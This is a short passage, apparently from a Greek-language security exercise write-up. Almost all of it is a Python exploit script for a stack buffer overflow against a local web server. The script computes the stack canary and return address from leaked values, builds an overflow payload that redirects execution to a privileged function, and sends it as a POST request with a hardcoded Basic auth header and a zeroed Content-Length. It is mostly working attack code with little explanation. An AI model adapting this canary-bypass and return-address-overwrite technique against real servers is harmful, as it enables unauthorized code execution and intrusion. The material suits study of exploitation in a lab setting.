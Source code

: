 Για να πραγματοποιήσουμε το attack φτίαξαμε το ακόλουθο script.

```python
import requests, sys, os
from requests import Request, Session,exceptions

heads ={    #headers used for request
'Authorization': 'Basic YWRtaW46Ym9iJ3MgeW91ciB1bmNsZQ==',
#'Authorization': 'Basic YWRtaW46cGFzcw==',
'Connection': 'keep-alive',
'Upgrade-Insecure-Requests': '1',
}

split = sys.argv[1]     #get input

last40 = split[-40:]    #we keep only the 40 last characters

# we calculate the correct return address. The return address is the address where route calls serve_ultimate
returnaddress = str(hex(int(last40[32:40],16) + 325))       

# address of canary. we use this address so that the for loop in post_param replaces the \x26 we put in the canary with \x00
temp =  int(last40[24:32],16) - 172
canaryaddress = str(hex(temp))      

#we replace the \x00 in the canary with \x26 so that stcpy doesnt stop
canary = str(hex(int(last40[0:8],16) + 38))     

data = bytes.fromhex(canaryaddress[2:])[::-1]
for i in range(0,14):
    data += bytes.fromhex(canaryaddress[2:])[::-1]  #we fill the buffer with the canary address, just to be sure, up untill we reach the canary

data += bytes.fromhex(canary[2:])[::-1]     #canary
data += bytes.fromhex(str(hex(int(last40[8:16],16)))[2:])[::-1] # 3 random values, doesn't really matter
data += bytes.fromhex(str(hex(int(last40[16:24],16)))[2:])[::-1]
data += bytes.fromhex(str(hex(int(last40[24:32],16)))[2:])[::-1]
data += bytes.fromhex(returnaddress[2:])[::-1]          #return address of serve_ultimate call in route

print(data)

try:        #perform request
    s = Session()
    response = Request('POST','http://127.0.0.1:8000/ultimate.html', headers=heads, data=data)
    prep = response.prepare()
    prep.headers['Content-Length'] = 0  #we uses this to set content length to 0 so that we can overflow the buffer
    resp = s.send(prep)
   
    status_code = resp.status_code
    print("Status Code =" + str(status_code))   #Status code
    print("Response = " + resp.text)            #Response text
except exceptions.RequestException as excep:
    print(excep)
```
